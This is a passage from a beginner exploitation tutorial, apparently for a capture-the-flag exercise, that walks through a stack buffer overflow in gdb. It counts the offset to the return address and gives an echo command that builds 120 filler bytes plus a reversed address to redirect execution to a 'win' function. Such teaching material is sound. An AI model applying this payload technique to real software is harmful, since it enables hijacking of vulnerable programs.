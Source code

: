 So essentially, if we change the return address from 0x0000555555554976 to the address of win instead, we would jump to win instead of going back to main.

Now let's finish figuring out how far it is from the end of buf.<br>`(gdb) x/32xw $rsp`

$rsp is another register like $rbp, except it's located before buf, so we can actually see buf by finding $rsp.

```
0x7fffffffe570: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe580: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe590: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe5a0: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe5b0: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe5c0: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe5d0: 0x41414141      0x00005500      0x00000000      0x00000000
0x7fffffffe5e0: 0xffffe5f0      0x00007fff      0x55554976      0x00005555
```

Note all the 0x41414141s. 41 in hex is actually the character A. If you count the number of 41s, you will get that there are exactly 100 of these. We can also see $rbp and the return address, they are on the last line! Simply counting the characters, we need to write another 12 characters before reaching $rbp. Then, we need to write over $rbp (8 bytes) before we get to the return address. Adding those up, we now know that we need to print 120 filler characters, followed by the address of win to get to win.

Remember how computers store numbers backwards? We also need to input the address backwards. So 0x5555555548aa should actually be printed in the order aa 48 55 55 55 55 00 00 (every two numbers/letters is 1 byte). Remember to add two 00s if needed.

Just to vertify that this works, let's craft an input with 120 As, followed by aa 48 55 55 55 55 00 00 as characters. Once again, this is the memory address for me, yours might differ. Replace this address with what you have.

I'm going to run this command in a new terminal window to craft an input for the current program running in GDB.<br>
`$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xaa\x48\x55\x55\x55\x55\x00\x00" > input`

The -e tells bash we are inserting hex values (\x{your hex here}) which you can see as \xaa\x48.... Then, we redirect the output of this command to a file called input.

Going back to the original window iwth gdb, I'm now going to run `(gdb) r < input` which tells it to run the program, using the file `input` as input. If gdb prompts you to start it from the beginning, type in y. 

Now that it's reached the breakpoint, let's check the value of the return address, using `(gdb) x/16xw $rbp`
```
0x7fffffffe5e0: 0x41414141      0x41414141      0x555548aa      0x00005555
0x7fffffffe5f0: 0x55554900      0x00005555      0xf7a05b97      0x00007fff
0x7fffffffe600: 0x00000001      0x00000000      0xffffe6d8      0x00007fff
0x7fffffffe610: 0x00008000      0x00000001      0x55554941      0x00005555
```

Alright, $rbp is now filled with 8 As. The two blocks after that, the return address, now contains the address of win (yours might vary), 0x00005555555548aa. We should be good to go.<br>
`(gdb) c`
